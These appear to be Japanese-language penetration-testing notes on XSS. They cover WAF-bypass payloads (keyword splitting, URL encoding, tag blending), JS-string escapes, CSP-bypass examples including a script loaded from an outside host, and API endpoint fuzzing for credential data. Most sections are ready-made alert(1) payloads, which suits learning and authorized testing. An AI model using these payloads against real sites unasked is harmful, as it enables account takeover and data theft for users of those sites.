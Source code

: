 ### XSS

#### WAFバイパスについて
WAFは「(」と「)」の順序で括弧をキャッチする  
→文字列を複数の部分に分割したり、キーワードを分割したり、文字の順序を変更すればWAFを回避できる  

```
<svg+onload=location='javascript:alert(1)'>

↓これだとひっかかるから改造する

<svg onload=a=')',b='t(1',j='javas',s='cript:aler',location=j+s+b+a>

↓これをエンコードして実行する

%3Csvg%20onload%3Da%3D')'%2Cb%3D't(1'%2Cj%3D'javas'%2Cs%3D'cript%3Aaler'%2Clocation%3Dj%2Bs%2Bb%2Ba%3E

```

#### タグブレンディングによるWAFバイパス
nextSibling.innerTextを使用することで、次のタグの値を指定できる  
→これを利用してWAFバイパスをする

bタグで囲んだところを良いところで区切ってWAFバイパスを行う  

```
<svg onload=location=nextSibling.innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

↓inner/outerHTML プロパティベースのペイロードには次のものがある  

```
<svg onload=location=all[22].innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

また、ブラウザ開発ツール(F12キー)でconsole.log(document.all)を使用して、nextSibling要素が22個目にあったとした場合↓
```
<svg onload=innerHTML=nextSibling.innerText>
<b><img/src/on<b></b>error=al<b></b>ert(1)></b>
```

#### XSSテク

```
よく使う型
<svg onload=alert(1) />
http://brutelogic.com.br/xss.php?a=<svg onload=alert(1)>

記号のフィルタリングがされている場合はタグから抜け出せないからイベントハンドラーを使う  
以下は入力フィールド上にマウスをポイントすると発火する  
http://brutelogic.com.br/xss.php?b3=” onmouseover=alert(1)//
```

```

HTML injectionでブラウザの解析では HTML タグが優先されるため、ブロックを終了して新しいタグを挿入するだけで済む

<script>
	// HTMLi in Js Block (Single Quotes)
	var c1 = 'value1';

	// HTMLi in Js Block (Double Quotes)
	var c2 = "value2";

	// Simple Js Injection (Single Quotes)
	var c3 = 'value3';

	// Simple Js Injection (Double Quotes)
	var c4 = "value4";

	// Escaped Js Injection (Single Quotes)
	var c5 = 'value5';

	// Escaped Js Injection (Double Quotes)
	var c6 = "value6";

</script>

http://brutelogic.com.br/xss.php?c1=</script><svg onload=alert(1)>
```

```
フィルタリングされていて挿入しても以下のようになる場合
var myVar3 = '><svg onload=alert(1)>';

その場合は、以下のように-で連結することでエスケープできる
'-alert(1)-'
var myVar3 = ''-alert(1)-''

ただしこれに対してもバックスラッシュ(\)でフィルターされる場合は無効となる
以下が無効となる例:
var myVar5 = '\'-alert(1)-\'';

そのため上手くバックスラッシュを挿入して引用符が切れるようにする
http://brutelogic.com.br/xss.php?c5=\'-alert(1)//
↓
var myVar5 = '\\'-alert(1)//';


```


#### JavaScriptのホイスティングを利用したXSS
宣言されていないか存在しないオブジェクトへの参照により、JavaScript パーサーは ReferenceError をスローしてしまい、
うまくXSSがささらない場合は、既存の関数を再度使用(ホイスティング)してバイパスすることができる  
https://brutelogic.com.br/blog/xss-with-hoisting/

### API
各フレームワークにあったエンドポイントリストを使ってファジング→ヒットしたURIにアクセスしてクレデンシャルなデータを保持しているAPIを見つける
Reactであればapp.jsが/に相当するため、setting.jsにアクセスすれな/settingに入れたりする
https://www.bugbountyhunter.com/guides/?type=javascript_files



### CSP

#### 安全でないCSPの設定

```
安全でないインライン
ポリシー例:
script-src 'unsafe-inline';

バイパス例:
<svg onload=alert(1)>





*(ワイルドカード)を使用した脆弱性
特定のディレクティブの任意のソースが許可されることを意味する

ポリシー例:
script-src *;
バイパスの例:
<script src=//x55.is></script>




selfをした脆弱性
script-srcディレクティブのselfは、
・JavaScriptコードを含むアップロードされたファイルをスクリプトソースとして使用する。

ポリシー例:
script-src 'self';
バイパスの例:
<script src=/uploads/myfile.js></script>

・相対URLからのJSONPコールバックをスクリプトのソースとして使用する
ポリシーの例
script-src 'self';
バイパスの例:
<script src=/api/v1?callback=alert(1)></script>


```








### HTML反映テスト
シンプルだけど強力
test<h2>test1
